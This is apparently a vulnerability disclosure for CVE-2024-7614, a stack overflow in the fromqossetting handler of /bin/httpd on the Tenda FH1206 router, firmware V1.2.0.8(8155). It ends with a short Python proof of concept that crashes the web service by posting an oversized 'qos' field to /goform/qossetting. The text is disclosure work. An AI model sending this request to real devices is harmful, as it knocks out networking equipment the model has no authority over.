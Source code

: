 ## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromqossetting` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). 

The function takes the `page` parameter and splices it to variable `v7` on the stack, causing a stack overflow.

When `op` is not `add` or `edit`, the function takes the `qos` parameter and copies it to variable `v8` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/qossetting"

data = {
    "entrys": "tenda",
    "op": "pwn!!!",
    "page": "hacked",
    "qos": "a"*0x1000,
    # "page": "a"*0x1000,
    # "qos": "hacked",
}

ret = requests.post(url,data=data)
```

![demo](image/demo.png)

## CVE

CVE-2024-7614
